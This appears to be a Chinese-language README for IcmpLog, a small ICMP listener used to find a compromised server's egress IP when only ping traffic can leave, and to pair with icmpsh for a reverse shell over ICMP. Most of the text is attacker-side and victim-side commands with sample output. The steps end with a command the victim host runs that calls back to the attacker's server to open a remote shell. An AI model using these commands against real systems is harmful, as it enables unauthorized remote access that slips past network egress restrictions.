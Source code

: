 # IcmpLog
一个监听icmp请求的小程序
- 用于只在ping出网的情况下获取服务器的出口地址。
- 可以配合[icmpsh](https://github.com/bdamele/icmpsh)实现仅在Icmp出网的情况下获取服务器反弹shell

## 使用
攻击端执行
```
{21-07-08 16:04}mail:~ root# ./icmplog [Attack Server IP]
```
[Attack Server IP]为要监听的服务端IP地址  
被攻击机执行
```
ping [Attack Server IP]
```
服务端回显
```
2021/07/08 16:04:44 message = '', length = 0, source-ip = *.*.*.109
2021/07/08 16:04:45 message = '', length = 0, source-ip = *.*.*.109
2021/07/08 16:04:46 message = '', length = 0, source-ip = *.*.*.109
2021/07/08 16:04:47 message = '', length = 0, source-ip = *.*.*.109
```
之后利用icmpsh
被攻击机执行
```
.\icmpsh.exe -t [Attack Server IP]
```
攻击机执行
```
python2.7 icmpsh_m.py [Attack Server IP] *.*.*.109
```
即可获取反连的webshell
